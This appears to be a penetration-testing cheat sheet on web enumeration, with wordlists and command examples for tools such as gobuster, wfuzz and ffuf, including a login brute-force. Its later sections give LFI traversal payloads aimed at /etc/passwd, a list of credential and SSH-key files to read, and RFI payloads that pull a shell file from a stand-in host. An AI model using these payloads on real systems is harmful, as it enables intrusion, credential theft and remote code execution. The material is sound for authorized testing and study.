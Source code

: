 # Web Enumeration

{% hint style="info" %}
If you are running BurpSuite proxy or FoxyProxy disable the interception before starting the tests.
{% endhint %}

### Common Wordlists to use for Web App Scanning:

Common Wordlists to use for Web Directory Scanning:

* /usr/share/wordlists/dirb/common.txt
* /usr/share/wordlists/dirbuster/\*.txt
* /usr/share/wordlists/wfuzz/general/\*.txt
* /usr/share/seclists/Discovery/Web-Content/

Common Wordlists to use for User Enumeration Scanning:

* /usr/share/seclists/Usernames
* /usr/share/wordlists/dirbuster/apache-user-enum-2.0

### Web App Scanners

#### Nikto

```
nikto --url
```

#### Wpscan

```
wpscan --url
wpscan --url --enumerate ap at (All Plugins, All Themes)
wpscan --url --enumerate u (Usernames)
wpscan --url --enumerate v
```

### Web Tools for Directory Scanning:

#### Dirb

```
dirb <domain>
dirb <domain> <wordlist>
```

#### Gobuster

```
gobuster dir -u -w /usr/share/wordlists/
gobuster dir -u -w /usr/share/wordlists/ -a Firefox (Custom Agent)
gobuster dir -u -w /usr/share/wordlists/ -x .php,.txt,.html
gobuster dir -u -w /usr/share/wordlists/ -x .php,.txt,.html -s "200"
gobuster dir -e -u -w /usr/share/wordlists/ -x .php,.txt,.html -s "200"
gobuster dir -v -e -u -w /usr/share/wordlists/ -x .php,.txt,.html -s "200"
gobuster dir -v -e -u -w /usr/share/wordlists/ -x .php,.txt,.html -s "200" -o output.txt
```

With a specific user-agent:

```
gobuster dir -s 200,204,301,302,307,403 -u 172.21.0.0 -w /usr/share/seclists/Discovery/Web_Content/big.txt -t 80 -a 'Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0'
```

#### Wfuzz

```
wfuzz -w wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ
wfuzz -z range,0-10 --hl 97 http://testphp.vulnweb.com/listproducts.php?cat=FUZZ
```

Post Requests

```
wfuzz -z file,wordlist/others/common_pass.txt -d "uname=FUZZ&pass=FUZZ" --hc 302 http://testphp.vulnweb.com/userinfo.php
```

Fuzzing Cookies

```
wfuzz -z file,wordlist/general/common.txt -b cookie=value1 -b cookie2=value2 http://testphp.vulnweb.com/FUZZ
```

#### Dirsearch

```
dirsearch /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 172.21.0.0 -e php
```

#### FFuF

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://172.21.0.0
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -b "COOKIE VALUE; security=low" -u http://172.21.0.0
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://172.21.0.0 -fc 403, 302, 200
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -H "Host: 172.21.0.0" -u http://172.21.0.0
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://172.21.0.0 -timeout 5
```

#### Other Tools

* Burp Suite
* OWASP Zap
* Cadaver
* SQLMap
* Joomscan
* Feroxbuster

### Testing for LFI:

[https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-(lfi).pdf](https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-\(lfi\).pdf)

#### Examples

```
http://example.com/index.php?page=etc/passwd 
http://example.com/index.php?page=etc/passwd%00 
http://example.com/index.php?page=../../etc/passwd 
http://example.com/index.php?page=%252e%252e%252f 
http://example.com/index.php?page=....//....//etc/passwd
```

### Interesting Files

#### Linux

```
/etc/passwd 
/etc/shadow 
/etc/issue 
/etc/group 
/etc/hostname 
/etc/ssh/ssh_config 
/etc/ssh/sshd_config 
/root/.ssh/id_rsa 
/root/.ssh/authorized_keys 
/home/user/.ssh/authorized_keys 
/home/user/.ssh/id_rsa
```

#### Windows

```
/boot.ini 
/autoexec.bat
/windows/system32/drivers/etc/hosts
/windows/repair/SAM
```

### Testing for RFI:

```
http://example.com/index.php?page=http://callback.com/shell.txt 
http://example.com/index.php?page=http://callback.com/shell.txt%00 
http://example.com/index.php?page=http:%252f%252fcallback.com%252fshell.txt
```

### Resources

* Turning LFI to RFI: [https://l.avala.mp/?p=241](https://l.avala.mp/?p=241)
